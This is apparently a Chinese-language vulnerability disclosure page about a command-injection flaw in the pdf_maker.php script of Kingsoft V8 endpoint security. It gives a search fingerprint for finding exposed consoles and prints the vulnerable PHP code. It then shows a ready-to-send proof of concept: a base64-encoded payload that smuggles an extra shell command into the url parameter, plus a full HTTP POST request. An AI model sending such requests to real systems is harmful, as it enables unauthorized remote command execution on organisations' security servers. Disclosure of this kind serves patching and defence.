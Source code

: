 # 金山 V8 终端安全系统 pdf_maker.php 命令执行漏洞

## 漏洞描述

金山 V8 终端安全系统 pdf_maker.php 存在命令执行漏洞，由于没有过滤危险字符，导致构造特殊字符即可进行命令拼接执行任意命令

## 漏洞影响

<a-checkbox checked>金山 V8 终端安全系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="猎鹰安全-金山V8+终端安全系统"</a-checkbox></br>

## 漏洞复现

存在漏洞的文件为

```plain
Kingsoft\Security Manager\SystemCenter\Console\inter\pdf_maker.php
```

```php
<?php
require_once (dirname(__FILE__)."\\common\\HTTPrequest_SCpost.php");
/*
{
   "kptl" :
{
"set_exportpdf_cmd" :
    {
    "url" : "http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-                580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
    "fileName":"test.pdf"
    }
}
*/
	
	
	//$post = file_get_contents("php://input");
	
	/*
	$post = array("kptl"=>
			array("set_exportpdf_cmd"=>array(
				"url"=>"http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
				"fileName"=>"test1234.pdf"
				)
			));
			*/
			
	
			
	
	

	$url = $_POST["url"];
	$fileName =  $_POST["fileName"];
	$batName=$fileName;
	if ($url == null || $fileName == null)
	{
		$return["nResult"] = __LINE__;
		echo json_encode($return,JSON_UNESCAPED_UNICODE);
		return ;
	}
	
	$url = base64_decode($url);
	$nameStr = base64_decode($fileName).date("Y-m-d").".pdf";
	$fileName="..\\htmltopdf\\".$nameStr;

	system('mkdir ..\\htmltopdf');

	
	$cmd = '..\\..\\wkhtmltopdf.exe "'.$url.'" '.$fileName;
	if (getApacheVersion()>=24) { //apache 2.4 php 7 版本 只能在  bat中运行
		$cmd =" del ".$fileName;

		exec($cmd);
		$url_= str_replace('%','%%', $url);
		$cmd = '..\\..\\wkhtmltopdf.exe "'.$url_.'" '.$fileName;
		$batName ="exec_wkhtmltopdf.bat";
		$myfile = fopen($batName , "w");
		//$cmd =iconv("UTF-8", "gbk", $cmd );
		fwrite($myfile, $cmd);
		fclose($myfile);
		$cmd =$batName ;
		exec($cmd);
		$cmd =" del ".$batName;
		exec($cmd);
    }else
    {
	system($cmd);
    }
	// echo $url;
	$return = array("nResult" => "0","fileName" =>$nameStr,"url"=>$url);
	echo json_encode($return,JSON_UNESCAPED_UNICODE);
	
?>
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313111023403.png)



这里传入 base64加密的拼接命令即可执行任意命令

```plain
"|| ipconfig || --base64--> url=IiB8fCBpcGNvbmZpZyB8fA==&fileName=xxx
```

```plain
POST /inter/pdf_maker.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04

url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313111022840.png)



## 